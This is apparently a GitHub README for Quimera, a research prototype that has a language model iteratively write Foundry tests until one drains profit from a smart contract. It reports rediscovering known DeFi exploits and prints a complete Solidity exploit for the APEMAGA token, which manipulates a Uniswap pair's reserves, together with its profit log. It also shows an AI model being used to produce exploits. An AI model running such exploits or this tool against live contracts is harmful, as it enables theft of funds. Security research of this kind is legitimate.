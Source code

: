 # Quimera

This is exploit-generator that uses large language models (LLMs) to gradually discover smart contract exploits in Foundry by following these steps:

1. Get the smart contract's source code and write a prompt that describes the goal of the exploit (e.g., the balance should increase after a flashloan).

2. Ask the LLM to create or improve a Foundry test case that tries to exploit the contract.

3. Run the test, check the transaction trace, and see if it made a profit.

4. If it did, stop. If not, go back to step 2 and give the LLM the trace from the failed attempt to help it improve.

**Current Status**: This is an experimental prototype. We’re still figuring out the best settings (like the right temperature), how to write better prompts, and what the tool is really capable of. Here are the results so far re-discovering known exploits using [Gemini Pro 2.5 06-05](https://blog.google/products/gemini/gemini-2-5-pro-latest-preview/):

| Exploit   | Complexity | Comments |
|-----------|------------|----------|
|[APEMAGA](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/dc2cf9e53e9ccaf2eaf9806bad7cd914edefb41b/src/test/2024-06/APEMAGA_exp.sol#L23) | Low    | Only one step needed.|
|[VISOR](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/34cce572d25175ca915445f2ce7f7fbbb7cb593b/src/test/2021-12/Visor_exp.sol#L10)     | Low    | A few steps needed to build the WETH conversion calls, but overall the root cause is identified quickly. |
| [FIRE](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/b3738a7fdffa4b0fc5b34237e70eec2890e54878/src/test/2024-10/FireToken_exp.sol)     | Medium | It will first build the sequence of calls to exploit it, and then slowly adjust the amounts until profit is found. |
| [Thunder-Loan](https://github.com/Cyfrin/2023-11-Thunder-Loan) | Low | This one is part of a CTF? |

# Requirements

* You will need an RPC provider (e.g. Alchemy) and an Etherscan API key. Both have free options.
* An LLM service, either a local (e.g. ollama) or remote LLM service (e.g gemini). **You do not need to pay for an API access, specially if you use "manual mode"**
* [Foundry](https://book.getfoundry.sh/)

# Installation

To install, just run:

```
pip3 install https://github.com/gustavo-grieco/quimera/archive/refs/heads/main.zip
```

If you want to use [different LLM providers](https://llm.datasette.io/en/stable/plugins/directory.html#plugin-directory), you will need to install them as plugins. For instance, to install gemini and ollama support:

```
llm install llm-gemini
llm install llm-ollama
```

Note that in "manual mode", there is no need to install any plugin as the user will be copying and pasting the prompt and responses.

**Important**: when using an LLM to test with an already known exploit, make sure the web search is not enabled, otherwise they can will have access to the original exploit code.


# Getting started

1. Modify the keys.sh file to add the RPC and Etherscan keys.
2. Select a block number `B` and then execute `source keys.sh B`
3. Invoke Quimera:

```
quimera TARGET --model gpt-4o --iterations 5
```

You can use `llm models` to show the available models.

# Running modes

Quimera can work with either deployed contracts (using Etherscan to fetch the source code) or in local mode with a Foundry codebase. To see an example how to use it locally, check the [tests/erc4626](tests/erc4626) directory. It imports the OpenZepelin ERC4626 vault which is instantiated using WETH in the tests. To use quimera, you must define a QuimeraBase contract in the [`test/quimera/QuimeraBase.t.sol`](tests/erc4626/test/quimera/QuimeraBase.t.sol) similar to the example one.

# Example session

This session shows the different steps to re-discover the [APEMAGA exploit](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/dc2cf9e53e9ccaf2eaf9806bad7cd914edefb41b/src/test/2024-06/APEMAGA_exp.sol#L23).
While it is likely that this code is part of the millons used to train, Gemini does not seem to be immediately recalling the exploit from memory, but instead, it seems to be trying to understand the code (at least, in some degree).

```
source keys.sh 20175261
quimera 0x56FF4AfD909AA66a1530fe69BF94c74e6D44500C --model gemini-2.5-pro-preview-06-05 --iterations 10
```

Gemini 2.5 Pro Preview (06-05) was used and produced an exploit on a single attempt (it used to take more in previous models):

```solidity
function executeExploit(uint256 amount) internal {
    // We have `amount` of WETH from the flash loan.
    // Let's use a significant portion to buy the target token.
    uint256 amountToSwap = amount * 90 / 100;

    // Path for swapping WETH -> Tonken
    address[] memory path = new address[](2);
    path[0] = address(valuableToken); // WETH
    path[1] = address(token);         // Tonken

    // 1. Swap WETH for Tonken
    uniswapRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        amountToSwap,
        0, // amountOutMin, we take whatever we can get
        path,
        address(this),
        block.timestamp
    );

    // 2. Call the vulnerable 'family' function on the Tonken contract,
    // passing the Uniswap pair's address. This is expected to maliciously
    // reduce the pair's recorded balance of Tonken.
    ITonken(token).family(address(uniswapPair));

    // 3. Call 'sync' on the Uniswap pair. This will update the pair's
    // reserves to match its token balances, which have just been manipulated.
    // The Tonken reserve will drop, artificially inflating its price.
    uniswapPair.sync();

    // Path for swapping Tonken -> WETH
    address[] memory path2 = new address[](2);
    path2[0] = address(token);         // Tonken
    path2[1] = address(valuableToken); // WETH

    // Get our entire balance of Tonken to swap back.
    uint256 tonkenBalance = IERC20(token).balanceOf(address(this));

    // 4. Swap all our Tonken back to WETH at the new, inflated price.
    // The router is already approved from the setUp function.
    uniswapRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        tonkenBalance,
        0, // amountOutMin
        path2,
        address(this),
        block.timestamp
    );
}
```

When an exploit is produced, the output shows the amount extracted:

```
[PASS] testFlaw() (gas: 202442)
Logs:
  ...
  Current valuable balance: 36116755288105983138433
  Surplus: 9137102938761881313
  Final balance 9137102938761881313

```

This exploit consumed a few thousands tokens and costed less than 1.25 USD.
